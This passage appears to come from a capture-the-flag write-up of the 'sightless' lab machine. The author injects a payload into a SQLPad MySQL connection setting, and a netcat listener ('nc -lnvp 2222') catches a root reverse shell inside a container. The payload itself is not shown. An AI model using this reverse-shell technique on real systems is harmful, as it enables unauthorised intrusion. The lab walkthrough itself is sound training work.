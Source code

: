 ```python
```
{% endraw %}
Now I follow the blog post describing the exploit, I create a new connection using the MySQL driver, and put my payload as the database :
![editconnectionsqlpad.png](/assets/img/sightless/editconnectionsqlpad.png)
When I click on save, I do get a shell on my nc listener :
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ nc -lnvp 2222                   
Listening on 0.0.0.0 2222
Connection received on 10.129.98.24 42392
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad#
```
As you can see we got a root shell from a container (which we can guest from the random hostname c184118df0a6). 
